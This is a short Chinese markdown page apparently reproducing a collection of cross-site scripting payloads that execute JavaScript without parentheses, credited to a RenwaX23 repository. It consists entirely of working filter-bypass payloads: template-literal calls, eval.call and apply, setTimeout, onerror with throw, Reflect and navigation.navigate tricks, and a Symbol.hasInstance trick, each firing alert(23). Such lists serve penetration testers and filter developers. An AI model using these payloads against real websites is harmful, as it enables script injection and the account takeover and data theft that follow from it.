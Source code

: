 # 不带括号的XSS


### 来源[RenwaX23](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)

---
    alert`23`
---
    window.name="javascript:alert(23)";
    location="xss.html";
xss.html

    location=name

---



    eval.call`${'alert\x2823\x29'}`


---


    eval.apply`${[`alert\x2823\x29`]}`

---


    setTimeout`alert\x2823\x29`
    setInterval`alert\x2823\x29`

---

    onerror=alert;throw 23;

---

    window.name='javascript:alert\x2823\x29';
    Reflect.set.call`${location}${'href'}${name}`

---

    Reflect.apply.call`${alert}${undefined}${[23]}`

---

    navigation.navigate`javascript:alert\x2823\x29`

---

    var{haha:onerror=alert}=0;throw 1
    var{a:onerror}={a:alert};throw 1

---

    'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}

---